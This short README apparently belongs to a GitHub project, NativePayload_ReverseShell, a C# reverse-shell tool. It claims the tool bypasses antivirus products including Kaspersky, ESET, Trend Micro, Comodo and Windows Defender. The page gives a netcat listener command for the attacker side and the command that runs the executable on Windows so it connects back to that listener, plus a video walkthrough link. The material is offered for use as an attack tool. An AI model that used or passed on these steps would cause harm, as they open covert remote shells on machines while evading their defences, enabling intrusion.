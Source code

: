 # NativePayload_ReverseShell
This is Simple C# Source code to Bypass almost "all" AVS, (kaspersky v19, Eset v12 v13 ,Trend-Micro v16, Comodo &amp; Windows Defender Bypassed via this method Very Simple) 

    //// Step 1 (linux Side:192.168.56.1)   : nc -l -p 443 
 
    //// Step 2 (Windows Side:192.168.56.x) : NativePayload_ReverseShell.exe 192.168.56.1 443 
    
Video Step by step : https://www.youtube.com/watch?v=VkFcy1Dg-pU&feature=youtu.be

